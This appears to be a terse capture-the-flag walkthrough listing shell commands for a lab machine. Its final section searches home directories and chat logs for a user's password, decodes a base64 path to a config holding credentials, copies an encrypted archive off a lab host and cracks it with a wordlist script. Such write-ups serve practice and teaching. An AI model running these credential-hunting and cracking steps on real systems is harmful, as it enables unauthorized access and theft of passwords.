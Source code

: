 You can following the cmd to solve the thing.

## Task

```
    find /home/sarah -type f -name employees.sql 2>/dev/null

    cd /home/sarah/serverLx/

    mysql -p

    source /home/sarah/serverLx/employees.sql


```

#  Final challenge 

You can following the cmd to solve the thing.

## Task

```
   cd /home/shared/chatlogs

   cat  LpnQ

   grep -iRl Sameer /home 2>/dev/null

   cat /home/shared/chatlogs/Pqmr

   cat /home/shared/chatlogs/KfnP ->> you can got the sameer password 

   find /home/shared/sql/ -type f -size 50M

   head /home/shared/sql/conf/JKpN

   echo  aG9tZS9zYW1lZXIvSGlzdG9yeSBMQi9sYWJtaW5kL2xhdGVzdEJ1aWxkL2NvbmZpZ0JEQgo= | base64 -d

   get wordlist

   grep -iRlE '^ebq' '/home/sameer/History LB/labmind/latestBuild/configBDB'

   grep -iRhE '^ebq' '/home/sameer/History LB/labmind/latestBuild/configBDB'

   cp to attack Vm

   scp sameer@10.10.61.194:/home/shared/sql/2020-08-13.zip.gpg .

   gpg2john 2020-08-13.zip.gpg 2020-08-13.zip.gpg.hash

   gpg2john doesn't work because the file is too big:

   https://github.com/felipesi/gpg-crack/blob/master/crackgpg.sh

   ./crackgpg.sh 2020-08-13.zip.gpg wordlist.txt

   unzip 2020-08-13.zip


   find only for james with grep

   grep -ri james 2020-08-13 -- you got the password.
```